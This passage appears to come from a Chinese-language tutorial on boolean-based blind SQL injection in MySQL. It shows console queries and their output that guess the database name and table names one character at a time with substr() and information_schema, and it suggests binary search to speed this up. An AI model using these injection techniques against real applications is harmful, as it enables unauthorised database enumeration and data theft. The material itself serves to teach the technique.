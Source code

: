```
|  1 | ZhangSan | PDZhangSan | NONE  |
+----+----------+------------+-------+
1 row in set (0.02 sec)

#获取当前数据库名称第一个字符，判断是不是为 'u'
mysql> select * from user where id = 1 and (substr(database(),1,1) = 'u');
+----+----------+------------+-------+
| id | name     | password   | notes |
+----+----------+------------+-------+
|  1 | ZhangSan | PDZhangSan | NONE  |
+----+----------+------------+-------+
1 row in set (0.02 sec)

#判断第二个字符是不是 's'   剩下的不过多介绍，可以使用二分法
mysql> select * from user where id = 1 and (substr(database(),2,1) = 's');
+----+----------+------------+-------+
| id | name     | password   | notes |
+----+----------+------------+-------+
|  1 | ZhangSan | PDZhangSan | NONE  |
+----+----------+------------+-------+
1 row in set (0.02 sec)
```



#### 获取数据库表数量和名称

```
#获取表数量，这里表的数量为2
mysql> select * from user where id = 1 and (select count(table_name) from information_schema.tables where table_schema = database()) = 1;
Empty set

mysql> select * from user where id = 1 and (select count(table_name) from information_schema.tables where table_schema = database()) = 2;
+----+----------+------------+-------+
| id | name     | password   | notes |
+----+----------+------------+-------+
|  1 | ZhangSan | PDZhangSan | NONE  |
+----+----------+------------+-------+
1 row in set (0.02 sec)

#获取表的名称   判断第一表的第一个字符是不是为 'i'
mysql> select * from user where id = 1 and (substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1)) = 'i';
+----+----------+------------+-------+
| id | name     | password   | notes |
+----+----------+------------+-------+
|  1 | ZhangSan | PDZhangSan | NONE  |
+----+----------+------------+-------+
1 row in set (0.03 sec)
```
